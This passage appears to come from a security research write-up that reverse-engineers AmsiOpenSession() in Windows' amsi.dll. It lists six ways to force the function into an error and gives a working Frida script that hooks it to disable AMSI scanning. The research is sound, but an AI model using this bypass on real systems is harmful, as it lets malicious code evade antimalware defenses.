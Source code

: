 [![a screenshot of a radare2 call graph, showing the error result](/img/amsiopensession_error.png)](/img/amsiopensession_error.png)

This block moves 0x80070057 into %eax, and then returns from the function. A quick look at the Microsoft documentation for [common HRESULT values](https://learn.microsoft.com/en-us/windows/win32/seccrypto/common-hresult-values) shows us that 0x80070057 represents "E_INVALIDARG". Seems like we're in the right place, so let's look at a few different ways we can get this function to return an error.

Here are all of the blocks that can potentially end up returning the E_INVALIDARG error, in order:

1. Test if %rdx is equal to zero. This is the second argument, or *AmsiSession*.
2. Test if %rcx is equal to zero. This is the first argument, or *AmsiContext*.
3. Compare the first DWORD of *AmsiContext* with a hardcoded signature value, 0x49534d41 ("AMSI").
4. Test if the QWORD at *AmsiContext+0x8* is equal to zero.
5. Test if the QWORD at *AmsiContext+0x10* is equal to zero.

So, this gives a number of candidates for alternate bypasses:

1. Hook *AmsiOpenSession()* and force the return value to be 0x80070057.
2. Hook *AmsiOpenSession()* and replace the first argument with a null pointer.
3. Hook *AmsiOpenSession()* and replace the second argument with a null pointer.
4. Hook *AmsiOpenSession()* and replace the first argument with a pointer to an invalid buffer.
5. Hook *AmsiOpenSession()* and corrupt the first 4 bytes of *AmsiContext*.
6. Hook *AmsiOpenSession()* and zero out the QWORD at offset 0x8 or 0x10.

We don't need to implement every single one of these to prove our point, but let's do a few. Here's an example that allocates a dummy buffer and replaces *AmsiContext* with it:

```javascript
//find AmsiOpenSession()
var amsi = Process.getModuleByName("amsi.dll");
var target = amsi.getExportByName("AmsiOpenSession");

var E_INVALIDARG = 0x80070057;

//hook AmsiOpensession()

Interceptor.attach(target, {
	onEnter: function(args) {
		//Allocate a buffer to use as a dummy amsiContext argument.
		//It will be invalid, causing an error to be thrown.
		console.log("AmsiOpenSession() invoked! Let's cause problems :)");
		var buf = Memory.alloc(7096);
		Memory.protect(buf, 7096, "rw-");
		args[0] = buf;
	},
	onLeave: function(retval) {
		//Verify the E_INVALIDARG error was thrown by checking the function's return value.
		if (retval == E_INVALIDARG) {
			console.log("AmsiOpenSession() returned E_INVALIDARG; AMSI should now be disabled.");
			Interceptor.detachAll();
		}
	}
});
```
